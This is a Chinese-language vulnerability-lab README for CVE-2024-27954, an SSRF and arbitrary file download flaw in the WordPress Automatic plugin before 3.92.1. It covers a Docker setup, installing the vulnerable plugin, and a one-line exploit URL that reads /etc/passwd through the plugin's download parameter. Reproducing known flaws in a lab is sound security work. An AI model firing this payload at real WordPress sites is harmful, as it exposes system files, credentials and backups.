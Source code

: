 # CVE-2024-27954 WordPress Automatic插件 SSRF与任意文件读取漏洞

​	WordPress Automatic 插件<3.92.1易受未经验证的任意文件下载和SSRF的攻击。位于downloader.php文件中，可能允许攻击者从网站访问任何文件。敏感数据，包括登录凭据和备份文件。此漏洞已在3.92.1版本中修补。

参考链接

- https://blog.csdn.net/shelter1234567/article/details/139233330

- https://nvd.nist.gov/vuln/detail/CVE-2024-27954
- https://github.com/truonghuuphuc/CVE-2024-27956/blob/main/wp-automatic.zip



## 漏洞环境

执行如下命令启动一个wordpress-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到wordpress安装向导界面

wordpress安装参考本项目的https://github.com/Shelter1234/VulneraLab/blob/main/WordPress/Bricks/CVE-2024-25600/README.zh-cn.md

安装automatic

![image-20240527104518280](./1.png)

进入后台Plugins - Add New Plugins 上传wp-automatic.zip文件安装，安装后点击Activate激活插件

![image-20240527104038340](./2.png)



## 漏洞复现

发起如下url

192.168.160.128/?p=3232&wp_automatic=download&link=file:///etc/passwd

![image-20240527103856518](./3.png)